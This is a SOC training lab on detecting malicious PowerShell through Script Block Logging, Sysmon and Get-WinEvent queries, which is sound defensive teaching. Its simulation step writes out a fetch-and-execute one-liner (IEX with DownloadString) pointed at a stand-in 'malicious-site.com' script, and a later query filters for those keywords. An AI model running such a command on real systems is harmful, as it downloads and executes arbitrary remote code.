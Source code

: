 # **Task #13: Investigate PowerShell Command Execution Logs**

## **Objective**  
The objective of this task is to help students analyze **PowerShell execution logs** to detect potential malicious activity. By completing this task, students will learn how to capture **PowerShell command execution events**, detect suspicious script execution, and analyze logs using **Windows Event Viewer and PowerShell**.

---

## **Lab Setup**  
### **Requirements**  
- **System:** Windows 10/11 or Windows Server 2019/2022  
- **Tools Required:**  
  - **PowerShell** (Pre-installed on Windows)  
  - **Windows Event Viewer**  
  - **Sysmon (System Monitor) from Sysinternals**  

---

## **Preparation**  
### **Step 1: Enable PowerShell Logging**  
To ensure PowerShell activity is being logged, enable **Script Block Logging**:  

1. Open **PowerShell (Run as Administrator)** and run:  
   ```powershell
   Set-ExecutionPolicy RemoteSigned -Scope LocalMachine -Force
   ```
2. Enable logging for PowerShell script blocks:
```
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell" -Name ScriptBlockLogging -Value 1 -PropertyType DWord
```

## Attack Simulation & Detection
We will now simulate the execution of a suspicious PowerShell command, detect it using Event Viewer, and analyze logs with Sysmon.

### Step 1: Simulate a Suspicious PowerShell Command Execution
1. Open PowerShell (Run as Administrator).
2. Run the following potentially malicious command:
```
IEX (New-Object Net.WebClient).DownloadString("http://malicious-site.com/malware.ps1")
```
- This command attempts to download and execute a remote PowerShell script, a common technique used by attackers.
- If running in a safe lab environment, replace the URL with a harmless text file.

### Step 2: Detect PowerShell Command Execution in Windows Event Viewer
1. Open Event Viewer (Win + R, type eventvwr.msc, press Enter).
2. Navigate to:
```
Applications and Services Logs → Microsoft → Windows → PowerShell → Operational
```
3. Click Filter Current Log and enter Event ID 4104 (Script Block Logging).
4. Look for:
- Executed Command: IEX (New-Object Net.WebClient)...
- Source Process: powershell.exe
- User Account: The account that executed the script

### Step 3: Detect PowerShell Command Execution Using Sysmon Logs
1. Open Event Viewer and navigate to:
```
Applications and Services Logs → Microsoft → Windows → Sysmon → Operational
```
2. Click Filter Current Log and enter Event ID 1 (Process Creation).
3. Look for:
- Process Name: `powershell.exe`
- Command Line Arguments: The executed PowerShell command
- Network Connections (if applicable)

### Step 4: Retrieve PowerShell Execution Logs Using PowerShell
Instead of using Event Viewer, use PowerShell to extract logs:

**Check for PowerShell Script Block Logging (Event ID 4104)**
```
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Id -eq 4104} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- This retrieves all PowerShell script block execution logs.

**Check for PowerShell Process Execution via Sysmon (Event ID 1)**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object {$_.Id -eq 1 -and $_.Message -like "*powershell.exe*"} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- This extracts all PowerShell-related process execution logs.

### Step 5: Investigate Potential Remote Code Execution (RCE)
To detect suspicious PowerShell activity related to remote script execution, use:

```
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Message -like "*IEX*" -or $_.Message -like "*DownloadString*"} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- If results appear, it suggests a PowerShell command attempted to fetch and execute remote scripts.

## Conclusion
✅ Successfully simulated a suspicious PowerShell command execution.    
✅ Detected and analyzed PowerShell script execution logs using Event Viewer and Sysmon.     
✅ Identified remote code execution attempts, a common technique used by malware and attackers.    
✅ Learned how SOC analysts track PowerShell-based attacks and prevent execution of malicious scripts.    

## Submission
Share a screenshot of Sysmon or PowerShell logs showing script execution (Event ID 4104 or Event ID 1).
Write a short observation on how PowerShell logging helps in detecting fileless malware attacks.
